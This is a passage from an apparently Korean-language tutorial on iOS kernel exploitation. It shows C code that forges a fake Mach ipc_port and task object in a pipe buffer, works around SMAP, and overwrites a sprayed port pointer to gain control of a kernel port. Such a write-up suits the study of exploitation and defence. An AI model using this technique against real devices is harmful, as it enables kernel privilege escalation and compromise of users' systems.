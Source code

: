 ```c
// second pipe, used for our fake port
    int port_fds[2] = {-1, -1};
    kern_return_t ret = pipe(port_fds);
    if (ret) {
        printf("[-] failed to create pipe\n");
        goto err;
    }

    // create fake port and fake task, put fake_task right after fakeport
    kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
    ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t) + 0x600);

    fake_task->ref_count = 0xff;
    
    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 0xd00d;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
    fakeport->ip_kobject = 0;
    fakeport->ip_receiver = ipc_space_kernel;

    //SMAP
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
    
    ...
    
    // align ip_kobject at our fake task, so the address of fake port + sizeof(kport_t)
    fakeport->ip_kobject = port_pipe_buffer + sizeof(kport_t);
```

이제 fake port를 사용하여 Pipe 버퍼에 존재하는 첫 번째 정상 포트를 교체한다.

마찬가지로 주의할 점은, SMAP 모드에서는 userland의 fakeport 주소가 아닌 port_pipe_buffer의 커널 주소를 써야 한다는 것입니다.

이 시점에서 우리는 fakeport를 정상적인 포트 영역에 위치시켰고, 다시 말해 ipc_port 하나를 완전히 제어하게 된 것이다.

```c
// spraying worked, now the pipe buffer is filled with pointers to our target port
// overwrite the first pointer with our second pipe buffer, which contains the fake port
    write(pipefds[1], &port_pipe_buffer, 8);
```

### Mach OOL 메시지 수신하기

포트 핸들은 rights 정보를 포함하고 있기 때문에, 
우리가 수행한 변조는 Pipe 버퍼에 존재하는 첫 번째 포트의 핸들을 변경하게 된다.
